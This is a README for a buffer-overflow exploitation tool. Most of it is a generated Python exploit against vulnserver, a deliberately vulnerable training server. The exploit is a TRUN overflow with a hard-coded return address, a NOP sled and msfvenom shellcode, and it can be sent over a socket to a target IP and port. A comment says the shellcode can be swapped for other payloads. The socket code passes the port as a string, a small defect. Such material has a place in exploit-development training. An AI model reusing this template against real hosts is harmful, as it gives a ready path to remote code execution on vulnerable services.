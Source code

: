 # ruffer-overflow

buffer overflow detection and exploitation tool for VERY low hanging fruit 

----

## example (secureserverind.exe)

note: secureserverind.exe is actually from the [vulnserver project by stephenbradshaw](https://github.com/stephenbradshaw/vulnserver) 
this command line interaction generates a python file designed to exploit a buffer overflow
![example](/examples/secureserverind.exe/command_line_output.png)

``` python3
#!/usr/bin/python3

# generated by ruffer-overflow [2020-07-28 18:49:51.755495]

#region targeting
BASE_ADDRESS = "62501060" # base address of essfunc.dll
GENERATE_EXPLOIT_FILE = True
EXPLOIT_FILE = "exploit.bin"
EXECUTE_EXPLOIT = False
TARGET_ADDRESS = "192.168.150.245" # target host
TARGET_PORT = "9999" # exposed port on the target host
#endregion

#region imports
import struct
import socket
#endregion

#region payload
buf =  b''
buf += b'TRUN /.:/'
buf += b'A' * 2003
buf += struct.pack("<I", int(BASE_ADDRESS, 16)) # little endian pack
buf += b'\x90' * 10 # safety nops

# payload (easy swap from msfvenom)
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x65\x63\x68\x6f\x20\x22\x6e\x6f\x20\x73\x74"
buf += b"\x61\x6e\x64\x61\x72\x64\x73\x22\x20\x3e\x20\x63\x6f"
buf += b"\x6d\x70\x72\x6f\x6d\x69\x73\x65\x2e\x74\x78\x74\x00"
#endregion

#region generate file
if GENERATE_EXPLOIT_FILE:
    with open(EXPLOIT_FILE, "wb") as exploit_file:
        exploit_file.write(buf)
#endregion

#region execute
if EXECUTE_EXPLOIT:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_ADDRESS, TARGET_PORT))
    print(s.recv(2048))
    s.send(buf)
    print(s.recv(2048))
    s.close()
#endregion

```
